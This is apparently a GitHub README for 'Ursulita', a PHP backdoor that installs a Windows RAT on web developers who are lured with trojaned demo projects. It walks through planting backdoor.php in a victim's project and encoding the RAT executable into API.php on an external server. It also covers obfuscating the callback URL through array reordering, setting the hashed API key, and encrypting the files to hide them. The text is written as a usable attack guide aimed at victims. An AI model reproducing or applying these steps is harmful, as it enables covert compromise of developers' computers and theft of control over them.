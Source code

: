 # Ursulita Project
**Tested on**: PHP  7.0.27
**Tags**:PHP, backdoor, RAT, API

Thanks to [@Yulefier](https://github.com/Yulefier "@Yulefier") for helping.
# Description
Ursulita project is a web injectable backdoor for windows.

# Getting started

First the project is just an idea about hunting a web developers using a simple trap, You have **backdoor.php** file, you should inject this file inside a demo project or any project that you might know your victim is interested in, 

    $filename = "ursulita.exe"; 

so this will be the file name in the windows temp folder, you can rename it as you want, 

Inside the API.php file there's two important things first is the API jey

    case"ursulita".sha1("3433"): //The API key validation

so that's mean the API key will be **ursulita+3433(hashed into sha1)**

so the full API key will be..

    ursulitaF3C9B754086C5C5C8C23F084E2A523DE8FD9C769
if you wanted to change the API key , you must change it in backdoor.php file too.

The second thing and the most important is the RAT details or whatever you wanna inject in the victim PC, it will be encoded inside **API.php** file,
You can encode it using **encoder.php** tool that included with the project,

just by changing this two:

    $file = "ursulita.exe"; //The input file name
    $outfile = "EncodedUrsulita.txt"; //Output file name
Then from **EncodedUrsulita.txt** you take the **base64** encoded data and put it inside **API.php**.

So you will include the classes folder and the backdoor details in the victim project , but the **API.php** file should be on external public server because the victim PC will try to connect into the **API.php**.

Also , you should put the **API.php** link inside **/classes/SETTING.php** file:

    $index = array(0, 2, 3, 1, 5, 6, 4, 8, 9, 7, 11,10);
    //  The below array is http://127.0.0.1/api.php , you need to change it to your API.php file link
    $code = array("h", "p", "t", "t", "127.", ":", "//", "1", "0.", "0.", "api.php","/" );

This function is reading the **$code** array elements then it print them as your custom order in **$index** array .

The encoder.php tool this stays for you only.
some other ideas might be usefull for you:

 - it's prefered to encrypt the **backdoor.php** and **SETTING.php**   
   contains before injecting them in the victim project.
 - Encrypt them    with a private key and hide the key in the victem
   project too , if    you want to know more about the **AES**
   encrypting [Click    Here](https://aesencryption.net/) .

# The project diagram

This is simple diagram to make it more clear.

![enter image description here](https://github.com/Alaa-abdulridha/Ursulita-Web-developers-trap/blob/master/Plan.png?raw=true)
